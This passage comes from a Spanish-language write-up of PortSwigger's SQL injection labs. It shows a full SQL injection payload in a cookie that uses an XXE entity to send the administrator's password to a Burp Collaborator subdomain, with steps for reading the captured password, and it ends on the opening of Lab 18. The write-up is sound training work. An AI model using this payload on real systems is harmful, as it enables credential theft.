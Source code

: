 ```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Este payload combina SQL Injection con técnicas de XXE (External Entity Injection) para realizar una consulta a la base de datos y exfiltrar la contraseña del usuario administrador al dominio de Burp Collaborator.

* En Burp Suite, al modificar el TrackingId, seleccionamos "Insert Collaborator payload" para insertar el subdominio de Burp Collaborator en el payload. Esto hará que el servidor se comunique con ese subdominio cuando la consulta se ejecute.

* Después de enviar la solicitud, el servidor ejecutará la consulta de forma asíncrona, lo que significa que la respuesta no será inmediata. Debemos esperar unos segundos y luego ir a la pestaña Collaborator en Burp Suite, donde podemos hacer clic en "Poll now" para buscar interacciones. Estas interacciones pueden ser DNS o HTTP, y nos mostrarán el nombre de dominio consultado.

* En las interacciones DNS o HTTP, el subdominio que se consulta tendrá la contraseña del administrador. En el caso de interacciones DNS, el dominio completo será visible en la pestaña de Descripción. Para interacciones HTTP, el nombre del dominio aparecerá en el encabezado Host en la pestaña Request to Collaborator.

* Una vez que se obtiene la contraseña, se puede acceder al perfil del administrador en la página web, completando así el laboratorio.

<https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-using-out-of-band-oast-techniques>

<https://portswigger.net/web-security/sql-injection/cheat-sheet>

#### Lab 18: SQL injection with filter bypass via XML encoding

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

![](/assets/img/ps-writeup-sqli/ps-lab18_1.png)

